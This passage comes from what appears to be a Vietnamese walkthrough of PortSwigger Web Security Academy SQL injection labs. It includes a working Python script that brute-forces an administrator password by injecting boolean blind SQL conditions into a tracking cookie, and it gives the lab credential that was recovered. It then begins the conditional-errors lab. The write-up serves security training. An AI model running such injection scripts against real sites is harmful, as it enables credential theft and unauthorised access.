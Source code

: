 Với độ dài đã biết của password, em viết script sau để tìm được chính xác password.

```python
import requests
import string

url = "https://0add0018045a73ad8068941d00c80074.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId":f"' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1)='{j}"}
        
        r = requests.get(url, cookies=cookie)
        if "Welcome back!" in r.text:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`yeuo9hasc1hmsq2rxltz`.

### Lab 12: [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.
>
> **Hint**
>
> This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

Em thử thêm kí tự `'` vào giá trị của cookie `TrackingId` thì thấy xuất hiện lỗi:

![lab-12](images/lab-12/lab-12.png)